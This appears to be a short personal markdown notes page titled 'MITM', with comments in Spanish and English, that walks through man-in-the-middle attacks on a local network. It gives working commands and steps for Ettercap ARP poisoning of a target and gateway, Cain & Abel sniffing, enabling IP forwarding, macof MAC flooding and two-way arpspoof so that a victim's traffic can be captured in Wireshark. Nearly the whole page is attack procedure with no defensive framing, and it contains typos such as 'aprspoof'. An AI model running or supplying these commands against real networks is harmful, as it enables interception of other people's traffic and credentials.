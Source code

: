 ```yaml
---
title: 'MITM'
description: ''
pubDate: 'May 12 2023'
heroImage: '/malware.png'
slug: 'mitm'
---
```


### ETERCAP

```bash
ettercap -G

# add to target 1: 192.168.10.5
# add to target 2: 192.168.10.1

# select apr poisoning
# Check if poisoning it ios working
arp -a
# before -> attack MAC address is correct
# after -> MAC address is our MAC address (attacker)

# le damos a view->connections para ver el trafico interceptado
# si funciona me cago!!!
```

### CAIN & ABEL

selccionar interface
modo promiscuo
Start/Stop sniffer

### Macof

activar el forwarding

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward

sudo macof -i wlan0 -n 32

# ya interceptamos pero el gateway todavia le envia paquetes a la victima
sudo aprspoof -i wlan0 -t target_ip 192.168.0.1

# para completar el ataque
sudo arpspoof -i wlan0 -t 192.168.0.1 target_ip

# ahora podemos olfatear el trafico con wireshark
echo 1 > /proc/sys/net/ipv4/ip_forward

```
